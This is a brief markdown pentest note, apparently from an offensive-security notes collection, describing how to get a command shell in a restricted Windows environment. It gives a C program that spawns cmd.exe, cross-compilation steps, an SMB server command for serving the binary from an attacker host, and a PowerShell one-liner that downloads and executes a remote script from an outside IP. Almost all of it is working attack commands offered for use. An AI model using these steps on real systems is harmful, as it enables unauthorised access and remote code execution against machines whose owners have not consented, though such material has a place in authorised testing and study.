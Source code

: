# Indirect Shell Via CMD.EXE

Shell access can be gained in a restricted environment by hosting a binary in the local share and accessing it from the target.

1. Create `pwn.c` with following content

        #include <stdlib.h>
            int main() {
            system("C:\\Windows\\System32\\cmd.exe");
        }

2. Compile the C program to generate `pwn.exe`

        apt install mingw-w64
        x86_64-w64-mingw32-gcc pwn.c -o pwn.exe

3. Start an SMB server to serve the binary

        /usr/share/setoolkit/venv/bin/smbserver.py -smb2support share ./pwn/

4. Download the binary onto the target Windows server by accessing following path (via MS Paint or any other option). Once downloaded, open/execute the binary to get a command shell.

        \\<Attacker_IP>\share\pwn.exe

    
5. Additional files could be downloaded using powershell
   
        powershell  -Command "iex (New-Object Net.WebClient).DownloadString('http://10.14.14.9/shell3.ps1')"

